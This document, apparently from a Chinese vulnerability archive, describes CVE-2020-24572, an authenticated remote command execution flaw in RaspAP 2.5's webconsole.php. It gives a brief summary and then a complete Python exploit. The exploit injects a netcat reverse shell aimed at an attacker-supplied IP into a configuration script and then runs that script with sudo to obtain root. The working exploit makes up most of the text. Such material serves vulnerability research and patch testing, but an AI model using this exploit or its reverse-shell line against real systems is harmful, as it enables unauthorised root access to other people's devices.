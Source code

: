 （CVE-2020-24572）RaspAP 2.5 远程命令执行漏洞
=============================================

一、漏洞简介
------------

在RaspAP
2.5的`include/webconsole.php`中发现了一个问题。借助经过身份验证的访问，攻击者可以使用配置错误（并且实际上不受限制）的Web控制台攻击运行该软件的底层OS（Raspberry
Pi），并在系统上执行命令（包括用于上传文件和执行代码的命令）。

二、漏洞影响
------------

RaspAP 2.5

三、复现过程
------------

### poc

> CVE-2020-24572.py

![1.png](./resource/(CVE-2020-24572)RaspAP2.5远程命令执行漏洞/media/rId25.png)![2.png](./resource/(CVE-2020-24572)RaspAP2.5远程命令执行漏洞/media/rId26.png)

    #/usr/bin/python3

    #####################################################
    ##############       deadb0x.io        ##############
    #####################################################
    ###      Proof of Concept for CVE-2020-24572      ###
    ###     (Authenticated) Remote Code Execution     ###
    ###             via Webconsole.php in             ###
    ###                  RaspAP v2.5                  ###
    ###         github.com/billz/raspap-webgui        ###
    ###         github.com/nickola/web-console        ###
    #####################################################
    ### Written by: lunchb0x - Disc. Date: 08/24/2020 ###
    #####################################################
    ###       deadb0x.io/lunchb0x/CVE-2020-24572      ###
    ###         github.com/lb0x/CVE-2020-24572        ###
    #####################################################

    import os
    import sys
    import requests
    from termcolor import colored

    if len(sys.argv) != 6:
        print("---------------------------------------------------------------------------------------")
        print("USAGE: rasp_pwn.py [target_ip] [port] [attacker_ip] [attacker_port] [RaspAP_admin_pass]")
        print("---------------------------------------------------------------------------------------")
        exit(1)

    target = sys.argv[1]
    port = sys.argv[2]
    listener_ip = sys.argv[3]
    listener_port = sys.argv[4]
    raspap_user = "admin"
    raspap_pass = sys.argv[5]

    session = requests.Session()
    session.auth = (raspap_user, raspap_pass)


    json_req_1 = {
                  "jsonrpc":"2.0",
                  "method":"run",
                  "params":["NO_LOGIN",
                            {"user":"","hostname":"","path":""},
                            "echo 'touch \/tmp\/f;rm \/tmp\/f;mkfifo \/tmp\/f;cat \/tmp\/f|\/bin\/bash -i 2>&1|nc %s %d >\/tmp\/f' >> \/etc\/raspap\/lighttpd\/configport.sh"%(listener_ip, listener_port)
                            ],
                  "id":6
                  }

    json_req_2 = {
                  "jsonrpc":"2.0",
                  "method":"run",
                  "params":["NO_LOGIN",
                            {"user":"","hostname":"","path":""},
                            "sudo /etc/raspap/lighttpd/configport.sh"
                            ],
                  "id":6
                  }

    r = session.post("http://%s:%s/includes/webconsole.php"%(target,port), json=json_req_1)
    print(colored("[!]", 'green') + " Reverse shell injected")
    print(colored("[!]", 'yellow') + " Sending activation request - Make sure your listener is running . . .")
    os.system("stty -echo")
    input(colored("[>>>]", 'green')+" Press ENTER to continue . . .")
    os.system("stty echo")
    print(colored("\n[!]", 'green') + " You should be root :)")

    r = session.post("http://%s:%s/includes/webconsole.php"%(target,port), json=json_req_2)
    print(colored("[*]", 'green') + " Done.")


    print(colored("----------------", 'yellow'))
    print(colored("[] deadb0x.io", 'yellow'))
    print(colored("----------------", 'yellow'))

参考链接
--------

> https://deadb0x.io/lunchb0x/cve-2020-24572/
